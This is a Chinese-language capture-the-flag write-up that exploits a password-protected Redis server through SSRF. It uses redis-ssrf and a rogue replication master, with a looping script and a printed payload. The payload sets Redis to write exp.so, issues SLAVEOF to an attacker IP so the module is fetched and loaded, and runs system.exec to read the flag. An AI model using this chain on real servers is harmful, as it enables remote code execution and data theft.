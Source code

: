 看到redis，提示密码是root。

主从复制，是指将一台Redis服务器的数据，复制到其他的Redis服务器。前者称为主节点(master)，后者称为从节点(slave)；数据的复制是单向的，只能由主节点到从节点。

redis的持久化使得机器即使重启数据也不会丢失，因为redis服务器重启后会把硬盘上的文件重新恢复到内存中，但是如果硬盘的数据被删除的话数据就无法恢复了，如果通过主从复制就能解决这个问题，主redis的数据和从redis上的数据保持实时同步，当主redis写入数据是就会通过主从复制复制到其它从redis。

使用两个工具

https://github.com/xmsec/redis-ssrf

https://github.com/n0b0dyCN/redis-rogue-server

开启rogue-server.py用于伪装为主redis，不过这个启动过程一连上就容易断开，可以写个死循环shell脚本跑rogue-server.py，不然可能导致exp.so都没传完就中断了。

run.sh

```assembly
while [ "1" = "1" ]
do
	python rogue-server.py
done
```

redis在6379端口，可以验证

`?url=dict://0.0.0.0:6379/`

```assembly
string(39) "-NOAUTH Authentication required. +OK "
```



```assembly
root@93b3ca8f2d45:~/redis-ssrf-master# python3 ssrf-redis.py
*2
$4
AUTH
$4
root
*4
$6
CONFIG
$3
SET
$3
dir
$5
/tmp/
*4
$6
config
$3
set
$10
dbfilename
$6
exp.so
*3
$7
SLAVEOF
$14
172.16.160.159
$4
6666
*2
$11
system.exec
$14
cat${IFS}/flag
```